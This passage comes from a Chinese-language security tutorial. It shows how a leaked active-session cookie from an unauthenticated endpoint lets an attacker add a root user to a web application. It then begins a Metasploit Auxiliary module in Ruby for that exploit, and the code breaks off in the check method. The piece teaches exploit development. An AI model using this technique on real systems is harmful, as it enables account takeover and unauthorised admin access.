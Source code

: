 此时，我们手上是有一个cookie值的，但会话很可能马上就结束了。所以最好的攻击向量就是创建一个新用户。

因此，我们可以在“POST /authentication server/user/add”字段中附带请求所必须的数据来向应用程序添加一个新的root用户。

在上图所执行的攻击中，在获得登录用户的cookie值后，未经授权的攻击者可以通过将此cookie值放置在用户添加请求中来创建具有完整权限的新用户，具体如下图所示：

[![](https://p2.ssl.qhimg.com/t01601b11d862ce21ec.png)](https://p2.ssl.qhimg.com/t01601b11d862ce21ec.png)

如上图所示，HTTP响应表明请求的用户已成功添加。稍后，攻击者可以轻松地使用这个具有完整权限的用户登录到应用程序并执行所有其他操作。



## 漏洞利用高级开发（MSF：Auxiliary）

### 关于Auxiliary模块

Metasploit框架包括数百个执行扫描，模糊（漏洞检查），嗅探等辅助模块。 虽然这些模块不会给你一个外壳，但它们在进行渗透测试时非常有价值。“show auxiliary”可以显示所有的辅助模块：

[![](https://p0.ssl.qhimg.com/t0100fa3446f230b5d6.png)](https://p0.ssl.qhimg.com/t0100fa3446f230b5d6.png)

漏洞利用模块通常是为在系统上执行命令而编写的，而MSF的Auxiliary适用于各种常见类型的漏洞，比如说从目标主机获取信息，或利用目标主机中的现有漏洞来创建新的攻击向量。

因此，我们可以利用MSF的Auxiliary模块来对这个漏洞进行利用设计。

```
class MetasploitModule &lt; Msf::Auxiliary
```

此时不会生成Payload，因为我们没有选择Msf::Exploit::Remote。

接下来，我们将分配用户名和密码作为注册选项。这里使用的是Rex::Text.rand_text_alphanumeric()函数来生成密码随机值，该功能可以为漏洞利用提供便利。

```
register_options(

      [

        Opt::RPORT(443),

        OptString.new('USERNAME', [true, 'The username for your new account']),

        OptString.new('PASSWORD', [true, 'The password for your new account', Rex::Text.rand_text_alphanumeric(14)])

      ])
```

接下来，请求“/session/list/allActiveSession”，并根据响应进行检查。如果响应中包含“sessionId”，则表示存在活动会话。如果没有“sessionId”且包含“SUCCESS”，则表示应用程序易受攻击，但没有活动会话。

```
def check

    begin

    res = send_request_cgi(

          'method'  =&gt; 'GET',

          'uri' =&gt; normalize_uri(target_uri.path, "session", "list", "allActiveSession"),

          )

 

    rescue

      return Exploit::CheckCode::Unknown
```